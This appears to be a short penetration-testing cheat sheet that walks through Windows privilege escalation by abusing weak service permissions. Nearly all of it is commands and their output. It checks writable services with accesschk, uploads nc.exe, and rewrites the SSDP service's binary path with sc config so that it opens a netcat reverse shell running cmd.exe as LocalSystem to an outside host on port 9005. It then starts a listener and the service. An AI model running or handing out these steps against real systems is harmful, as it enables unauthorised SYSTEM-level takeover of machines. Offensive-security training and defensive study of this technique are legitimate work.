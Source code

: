 # Weak service permissions

Find services that have weak service permissions, and modify them to trigger your shell.

```sh
C:\\temp>accesschk.exe -uwcqv IWAM_BOB * /accepteula 
accesschk.exe -uwcqv IWAM_BOB * /accepteula 
RW SSDPSRV 
   SERVICE_ALL_ACCESS 
RW upnphost 
   SERVICE_ALL_ACCESS 
```

Upload nc.exe to c:\temp

```sh
sc qc ssdpsrv
C:\\temp>sc qc ssdpsrv
sc qc ssdpsrv
[SC] GetServiceConfig SUCCESS

SERVICE_NAME: ssdpsrv
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\temp\nc.exe -nv xxxxxxx 9005 -e C:\WINDOWS\System32\cmd.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : SSDP Discovery Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

sc config upnphost obj= ".\LocalSystem" password= ""
sc config ssdpsrv start= auto
sc config ssdpsrv binpath= "C:\temp\nc.exe -nv xxxxxxx 9005 -e C:\WINDOWS\System32\cmd.exe"
``` 

Set up listener

```sh
nc -lnvp 9005
```

Start service

```sh
net start ssdpsrv
```

Here is your shell



